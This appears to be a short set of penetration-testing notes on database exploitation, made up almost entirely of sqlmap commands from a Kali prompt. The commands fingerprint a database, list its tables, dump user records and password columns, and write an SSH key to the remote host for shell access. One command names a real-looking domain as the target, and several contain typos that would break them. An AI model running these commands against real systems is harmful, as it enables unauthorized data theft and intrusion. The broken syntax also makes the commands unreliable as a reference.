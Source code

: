 # Databases Exploitation

Database Exploitation Notes

### Searching for an exploit for a specific database version

```
root@kali$:Searchsploit -w [databasetype]
```

## SQL Database

### SQL Injection with sqlmap

#### Grabbing the Database software

```
root@kali: sqlmap -u example.com/product/14* --banner
```

we put star as the vulnerable parameter is not clear to us or

```
root@kali:sqlmap -r req.txt --current-db
```

#### Listing Tables

```
root@kali: sqlmap -u catalog.sph-assets.com/product/14* --tables
```

or

```
root@kali:sqlmap -r request.txt -D social --tables
```

#### Dump entries from a specific table

```
root@kali: sqlmap -u example.com/product/14* -T users_field_data –dump
```

#### Dumping specific columns from a table

```
root@kali:sqlmap -r request.txt -D social -T users -C username,email,password --dump
```

#### Writing SSH keys with sqlmap to the remote host to have SSH access ( you need to create your key pairs first locally before transferring them to the remote host)

```
root@kali: sqlmap -u example.com/product/14* --file write=/root/.ssh/id_rsa.pub –file destination=/home/mysql/.ssh/
```
